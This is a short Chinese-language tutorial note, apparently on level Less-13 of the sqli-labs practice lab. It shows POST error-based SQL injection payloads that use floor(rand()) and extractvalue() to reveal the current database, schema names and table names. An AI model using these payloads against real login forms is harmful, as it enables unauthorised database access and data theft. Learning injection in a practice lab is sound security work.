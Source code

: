 ## POST注入-显错注入

### 注入流程-Less-13

#### 查看当前数据库

```
passwd=123') union select count(*),concat_ws("~",(select database()),floor(rand(0)*2)) as a from information_schema.tables group by a#&Submit=Submit&uname=admin
```

<img src="%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230606184812257.png" alt="image-20230606184812257" style="zoom:50%;" />

#### 爆库

```
passwd=123') and extractvalue(0x7e, concat(0x7e, (select substring((group_concat(schema_name)),1,30) from information_schema.schemata)))#&Submit=Submit&uname=admin
```

<img src="%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230606185331437.png" alt="image-20230606185331437" style="zoom:50%;" />

#### 爆表

```
passwd=123') and extractvalue(0x7e, concat(0x7e, (select substring((group_concat(table_name)),1,30) from information_schema.tables where table_schema=database())))#&Submit=Submit&uname=admin
```
